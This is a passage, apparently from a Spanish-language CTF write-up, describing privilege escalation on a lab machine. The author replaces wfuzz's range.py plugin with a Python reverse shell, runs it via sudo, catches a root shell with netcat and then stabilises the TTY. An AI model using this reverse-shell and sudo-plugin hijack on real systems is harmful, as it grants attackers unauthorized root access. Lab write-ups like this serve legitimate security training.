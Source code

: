 ```shell
echo '' > /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py
```

> range.py

```python
#!/usr/bin/env python3
import socket,subprocess,os,pty

# Cambia estos valores por los de tu máquina atacante
RHOST = "<IP>"          # IP del atacante
RPORT = <PORT>          # Puerto donde escucharás con netcat

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST, RPORT))
    os.dup2(s.fileno(),0)   # STDIN
    os.dup2(s.fileno(),1)   # STDOUT
    os.dup2(s.fileno(),2)   # STDERR
    pty.spawn("/bin/bash")
except Exception as e:
    pass
```

Ahora si lo guardamos y ejecutamos la herramienta de esta forma invocando el parametro para que se ejecute el script de `python`...

```shell
sudo wfuzz -z range,1-10 http://localhost/FUZZ
```

Antes de ejecutarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si lo ejecutamos lo anterior y volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.96] 55380
root@brain:/home/ben# whoami
whoami
root
```

Veremos que ha funcionado, por lo que sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
